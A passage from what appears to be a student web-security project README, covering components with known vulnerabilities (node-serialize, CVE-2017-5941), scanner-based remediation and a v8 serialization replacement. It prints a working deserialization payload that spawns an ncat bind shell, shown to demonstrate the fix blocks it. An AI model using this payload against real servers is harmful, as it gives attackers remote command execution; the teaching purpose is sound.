  |WhiteSource|**Components with known vulnerabilities** contain vulnerabilities that were discovered in open source components and published in the NVD, security advisories or issue trackers.  From the moment of publication, a vulnerability can be exploited by hacker who find the documentation.|
  
  As developers, we often solely focus on functionality of the software we are writing, very rarely do we think about security.  We'll often incorporate libraries that help us get our job done, but we don't do our due diligence in researching possible vulnerabilities associated with those libraries.  The security often gets overlooked.
  
  ---
### Demonstration
  Our Web Application makes use of the node package **"node-serialize"** to serialize and deserialize objects. The **"node-serialize"** library has a CVE (Common Vulnerability and Exposure) associated with it.
  
  <a href="https://www.cvedetails.com/cve/CVE-2017-5941/">CVE-2017-5941</a> contains a description and links to proof of concept exploit code for the node-serialize library.
  
  For an in-depth demonstration on how to exploit a component with a known vulnerability, please refer to our Insecure Deserialization section, where you'll be taken through a step-by-step guide on how to exploit the **"node-serialize"** library.
  
  ---
### Remediation
  A mitigation technique to discover vulnerabilities against our web application is to manually check the libraries and version against exploit databases, CVEs, etc.  This is how we discovered the vulnerability with **node serialize v.0.0.4**, however, there are more efficient methods to do so.  As developers we can employ automated scanners, such as <a href="https://www.tenable.com">Tenable's Nessus</a> or <a href="https://www.openvas.org">Openvas</a>.
  
  Automated scanners enable developers to continuously monitor their web application for current and new vulnerabilities not only in our web applications, but in all software running on our Host system. Very rarely do hackers rely on one vulnerability to gain control of a system.  Systems are usually "rooted" by chaining multiple exploits together. Automated scanners are an effective way to discover vulnerabilities and address "low hanging fruit".
  
  Once a component with a known vulnerability is discovered, developers should seek to remove that component from their application, or mitigate the vulnerability.  In the Insecure Deserialization section, we mitigated the vulnerability with the use of the <code>JSON.stringify</code> function.  A more preferable solution, would be to use another library that provides the same functionality, but without the vulnerabilty.
  
  The nodejs engine <span class="bold">v8</span> provides us such a capability. It allows to serialize and deserialize objects.
  
  Our code to serialize user input is now:
  
  ```
  var v8 = require('v8')
  var obj = req.body.userInput
  var serialized = v8.serialize(obj)
  var json = JSON.stringify(serialized)
  ```
  
  Here's what you'll see if you serialize an object in our web app:
  
  ```
  {test:123}
  ```
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities1.PNG">
  
  Our code to deserialize an object is now:
  
  ```
  var obj = Buffer.from(JSON.parse(req.body.userInput).data)
  var deserialized = obj.toString('utf8')
  
  Here's what you'll see if you deserialize the corresponding serialized object:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities2.PNG">
  
  As in the Insecure Deserialization Section, attempt to start up a BIND shell on our webserver, by deserializing the following malicious input:
  
  ```
  {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ncat -nlvp 4444 -e /bin/sh', function(error, stdout, stderr) { console.log(stdout) });}()"}
  ```
  
  We now receive a error message, instead of a BIND shell:
    
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities3.PNG">  
  
  ---
### Citations: Using Components with Known Vulnerabilities
  "Insecure Components" Team Treehouse.  
  https://teamtreehouse.com/library/insecure-components (accessed Feb 18, 2022).
  
  "What is using components with known vulnerabilities". GeeksForGeeks.  
  https://www.geeksforgeeks.org/what-is-components-with-known-vulnerability/ (accessed Feb 19, 2022).
  
  "You can't ignore using components with known vulnerabilities". Whitesource.  
  https://www.whitesourcesoftware.com/resources/blog/using-components-with-known-vulnerabilities/ (accessed Feb 19, 2022).
</details>

# 10. Insufficient Logging & Monitoring
<details>
  <summary>
    ⨯ [Article not available yet]
  </summary>
  
### Description
  ---
### Demonstration
  ---
### Remediation
  ---
### Citations: Insufficient Logging & Monitoring
</details>

# Citations: Primary Sources

"Website Security Research Project." EECS Project site.
https://eecs.oregonstate.edu/capstone/submission/pages/viewSingleProject.php?id=OLLHp1v4lrRuobYa (accessed Dec 2021-Jan 2022).

Avi. D. "Top 10 Common Web Attacks: The First Steps to Protect Your Website." vpnMentor.
https://www.vpnmentor.com/blog/top-10-common-web-attacks/ (accessed Dec 2021-Jan 2022).

# Code References

REFERENCES  
<sub>
├── body-parser		| "body-parser", http://expressjs.com/en/resources/middleware/body-parser.html  
├── crypto			| "Crypto", https://nodejs.org/api/crypto.html#cryptorandombytessize-callback  
├── expressjs		| "Hello world example", https://expressjs.com/en/starter/hello-world.html  
├── expressjs		| "cs340_sample_nodejs_app", https://github.com/knightsamar/cs340_sample_nodejs_app  
├── expressjs		| OSU CS340 INTRODUCTION TO DATABASES, https://canvas.oregonstate.edu/courses/1825733  
├── expressjs		| "Express error handling", https://expressjs.com/en/guide/error-handling.html  
├── express-session	| "express-session", http://expressjs.com/en/resources/middleware/session.html  
├── handlebars		| "Introduction", https://handlebarsjs.com/guide/  
├── handlebars		| "Express Handlebars", https://www.npmjs.com/package/express-handlebars  
├── handlebars		| "Hello Handlebars", https://eecs.oregonstate.edu/ecampus-video/CS290/core-content/hello-node/hello-handlebars.html  
├── handlebars		| "app.locals", https://expressjs.com/en/api.html#app.locals  
├── JavaScript		| "Element.classList", https://developer.mozilla.org/en-US/docs/Web/API/Element/classList  
├── JavaScript 		| "parseInt()", https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt  
├── MySQL			| "Using Node on the Engineering Servers", https://eecs.oregonstate.edu/ecampus-video/CS290/core-content/tools-and-overview/Using-Node-on-the-Engineering-Servers.html  
└── Window.prompt 	| "Window.prompt()", https://developer.mozilla.org/en-US/docs/Web/API/Window/prompt  
</sub>
